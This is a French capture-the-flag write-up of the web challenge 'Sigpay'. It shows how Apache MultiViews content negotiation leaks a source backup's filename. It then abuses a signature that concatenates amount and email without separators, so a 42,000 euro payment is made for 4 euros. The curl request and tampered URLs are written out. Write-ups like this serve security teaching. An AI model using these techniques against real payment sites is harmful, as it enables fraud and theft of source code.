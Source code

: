 > Name: Sigpay
> 
> Category:  Web
> 
> Difficulty: Easy/Medium
> 
> Description: 
> *NFTs are so popular right now that everyone wants to be in it. Even charities...*
>
> *For each donator, the "Retro Community" claims to offer a unique NFT. Because they are having so much success, they plan on releasing the ultime NFT very soon.*
>  
> *You need that Secret NFT, by any means. Can you get it before anyone else ?*

Sur ce challenge, on a deux sites distincts :
- Le site de donation : http://donate.retro.nft:40080/
- Le site de paiement tiers (3rd Party) : http://payment-gateway.retro.nft.easy4pay.money:40080/

Le but est d'acheter le NFT à 42 000 euros.

![donate retro nft_40080_ (1)](https://github.com/pun-private/writeup-barbhack2023-web/assets/27222105/4565e63a-fcf7-4f3a-8f22-09097bb410e4)

![payment-gateway retro nft easy4pay money_40080__Amount=20 TransactionID=1089d466-8d27-4be5-960d-10603d264401 UserEmail=a@a com Signature=0bf07955d8e0475ac81728abe697c2e87d3ed57280265c1617aa21c6f9ad58c04361d03eef7ef](https://github.com/pun-private/writeup-barbhack2023-web/assets/27222105/47986731-672a-4531-9348-d743f59cd713)

Lorsqu'on ajoute au panier un NFT du site principal, une signature est générée et envoyée au site de paiement. Si on altère n'importe quel paramètre, on a le message :

> *** Signature could not verified.**

En regardant le site principal, on voit qu'il y a un CHANGELOG tout en bas :

```
# Changelog
All notable changes to this project will be documented in this file.

The format is based on [Keep a Changelog](https://keepachangelog.com/en/1.0.0/),
and this project adheres to [Semantic Versioning](https://semver.org/spec/v2.0.0.html).

## [Unreleased]

## [0.4.0] - 2022-01-03
### Changed
- Multi-Language "Terms of Service" files are served using Apache Configuration only :

    <Directory /var/www/html/files>
        Options -Indexes +FollowSymLinks +MultiViews
        MultiviewsMatch Any
    </Directory>

## [0.3.1] - 2022-12-09
### Changed
- New "Disallow" rule in `robots.txt` in case backup files are indexable.

## [0.3.0] - 2021-12-08
### Added
- Backup scripts

## [0.2.0] - 2021-12-03
### Added
- Payments are now handled by an external gateway.

### Security
- Switched to SHA3-512 for transactions signatures.

## [0.1.0] - 2021-11-10
### Added
- Initial release.
```

Deux choses sont intéressantes :
1. Le Multiview est activé sur la configuration Apache (https://httpd.apache.org/docs/2.4/en/content-negotiation.htmlhttps://httpd.apache.org/docs/2.4/en/content-negotiation.html)
2. Il y aurait des backups (on le voit aussi dans le chemin `/files/backup` dans `robots.txt`)

En allant sur http://donate.retro.nft:40080/files/backup, on a journal d'information sur les backups :

```
[2021-12-26 01:00:00] Logfile="backup.txt.log_20211226.56872"

[2021-12-26 01:00:00] Deleting previous backups : rm backup.*

[2021-12-26 01:00:00] Archiving "donations_all.csv" file...
[2021-12-26 01:00:03] Backup "backup.tar<redacted>_csv" created.

[2021-12-26 01:00:03] Archiving "donate" source code folder...
[2021-12-26 01:00:12] Backup "backup.tar<redacted>_src" created.

[2021-12-26 01:00:12] Script finished with 0 error(s).
```

Il y a trois fichiers backup* qui sont créés :
- `backup.txt.log_20211226.56872` => c'est le journal qu'on lit actuellement
- `backup.tar<redacted>_csv` => c'est un backup de toutes les donations
- `backup.tar<redacted>_src` => c'est le **backup du code source** ! 

Comme le multiview est activé, on peut essayer d'aller sur `/files/backup.tar` qui nous récupère bien une archive mais c'est celle des donations, pas du code source. 

En se documentant sur ce qu'est le multiview, on comprend que le serveur nous retourne ce qu'on lui demande comme type de fichier (langue, type, etc)... mais s'il ne sait pas ce qu'on veut, il nous retourne la liste des fichiers candidats possibles !

```
$> curl -H 'Accept: WhatDoYouWant/IDontKnow' http://donate.retro.nft:40080/files/backup

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>406 Not Acceptable</title>
</head><body>
<h1>Not Acceptable</h1>
<p>An appropriate representation of the requested resource could not be found on this server.</p>
Available variants:
<ul>
<li><a href="backup.tar.584a7d5ba722121e729c049e9bc91932_src">backup.tar.584a7d5ba722121e729c049e9bc91932_src</a> , type application/x-tar</li>
<li><a href="backup.tar.f3d62d4f5c5a9d43e4e1d1d623950b7c_csv">backup.tar.f3d62d4f5c5a9d43e4e1d1d623950b7c_csv</a> , type application/x-tar</li>
<li><a href="backup.txt.log_20211226.56872">backup.txt.log_20211226.56872</a> , type text/plain</li>
</ul>
<hr>
<address>Apache/2.4.56 (Debian) Server at donate.retro.nft Port 40080</address>
</body></html>
```

On a désormais le nom complet du backup des sources qu'on peut télécharger :
http://donate.retro.nft:40080/files/backup.tar.584a7d5ba722121e729c049e9bc91932_src

Dans la classe Donation, on voit comment la génération de signature pour le paiement est faite :

```php
    static public function generateSignature($transaction_id, $amount, $user_email) {

        $raw_string = "{$transaction_id}{$amount}{$user_email}" . SIGNATURE_SALT;
        return hash('sha3-512', $raw_string); // GO STRONG OR GO HOME !
        
    }
```

Sur le site du paiement, la signature est généré de la même façon ce qui permet de s'assurer de l'intégrité des paramètres qui lui sont envoyés

```
Amount=20&TransactionID=5e89b96d-dd2e-4d14-9984-b249d4c74a85&UserEmail=a@a.com&Signature=f4dd6d1f9c6221806c6b770783afdf3b512c2bdaf509fbd05a3818be137a96592e9c9dd16ee66eefa9cda0ae287bf6eca2ec2054606d9aba5be669f4ccdb0cc4
```

En s'intéressant plus à cette fonction, on voit que les valeurs sont tout simplement concaténés sans séparateur avec un `SIGNATURE_SALT` qu'on ne connait pas. Imaginons qu'on a les paramètres suivants :

```
transaction_id: 12345-XYZ
amount: 42
email: pouet@prout.com

raw_string = 12345-XYZ42pouet@prout.com<secret_salt>
```

Et si maintenant la somme vaut `4` et l'email `2pouet@prout.com` ?

```
raw_string = 12345-XYZ42pouet@prout.com<secret_salt>
```

Cela donne exactement la même signature !

Il ne reste plus qu'à générer une donation de 42000 euros sur le site donate :

```
http://donate.retro.nft:40080/checkout?Amount=42000&UserEmail=a@a.com
```

Et modifier la somme à `4` et l'email à `2000a@a.com` sur le site de paiement :

```
http://payment-gateway.retro.nft.easy4pay.money:40080/?Amount=4&TransactionID=929d84a4-03f5-4465-85b7-c54799ca4688&UserEmail=2000a@a.com&Signature=74e832721da97b3032bc406ec0a99db965f32039119a3f2c52ce4d5c358150b383ebb37fa82b0ce49cb6722e4f17ac80cb1de004911ad70cfa9d09fe854f373e
```

On paie et on est redirigé vers le flag =)

![Pasted image 20230731113652](https://github.com/pun-private/writeup-barbhack2023-web/assets/27222105/a947bf81-9f6d-49aa-87a1-ebfa4f036d7c)
